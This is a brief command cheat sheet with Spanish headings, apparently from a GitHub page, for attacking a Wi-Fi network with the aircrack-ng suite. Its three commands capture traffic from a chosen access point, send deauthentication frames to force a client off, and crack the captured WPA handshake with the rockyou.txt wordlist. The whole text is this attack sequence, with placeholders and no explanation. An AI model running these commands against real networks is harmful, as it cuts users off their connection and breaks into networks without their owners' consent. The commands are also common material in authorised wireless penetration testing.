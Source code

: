 

# Escaneo Por Bssid Con Escritura
airodump-ng -c CANAL --bssid BSSID -w file NOMBRE-INTERFAZ

# Ataque de Deauthenticacion
aireplay-ng -0 9 BSSID -c CLIENTE NOMBRE-INTERFAZ

# Descifrado de Handshake
aircrack-ng -b HASH -w rockyou.txt FILE.cap